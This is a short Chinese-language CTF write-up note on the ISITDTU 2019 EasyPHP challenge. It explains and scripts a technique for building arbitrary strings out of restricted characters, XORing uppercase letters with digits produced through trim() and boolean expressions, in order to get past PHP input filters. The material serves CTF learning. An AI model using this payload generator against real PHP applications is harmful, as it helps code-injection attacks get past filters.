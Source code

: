 # 例题或者启发
[CTFtime.org / ISITDTU CTF 2019 Quals / EasyPHP / Writeup](https://ctftime.org/writeup/15946)
### 原理
:::tips
通过布尔值为1的一些字符进行构造任意字符串<br />原理为<br />      [A-Z]^[0-9] = [a-z_]<br />      trim(string $str) = integer $num (eg. trim("123") = 123)<br />数值为1的字符举例<br />      !!a, (a==a)<br />形式为<br />      @ASD^trim(123)    =>  'paw'
:::
### 构造脚本
```python
"""
通过布尔值为1的一些字符进行构造任意字符串
原理为
      [A-Z]^[0-9] = [a-z_]
      trim(string $str) = integer $num (eg. trim("123") = 123)
数值为1的字符举例
      !!a, (a==a)
形式为
      @ASD^trim(123)    =>  'paw'
"""

def create_num(num):
    num_bin = bin(num)[2:]
    length = len(num_bin) - 1
    strr = ""
    for i in num_bin:
        if i == "1":
            if length >= 1:
                strr += "+(" + f"({char}+{char})**" + "(" + (f"{char}+"*length)[:-1] + ")" + ")"
            else:
                strr += f"+({char})"
        length -= 1
    return "(" + strr[1:] + ")"

def create_xor(target_str, allowed_char):
    num = ""
    strr = ""
    for i in target_str:
        for j in range(0, 10):
            sub_strr = chr(ord(i) ^ ord(str(j)))
            if sub_strr in allowed_char:
                num += str(j)
                strr += sub_strr
                break
    return num, strr


allowed_char = input("可使用的字符(eg. qwrtyuiahjklzxcvbnm):").upper()
char = input("数值为1的字符：")
target_str = input("所要生成的字符串：")
num, strr = create_xor(target_str, allowed_char)
num = create_num(int(num))
res = "(" + strr + "^" + f"trim({num})" + ")"
print(res)

```
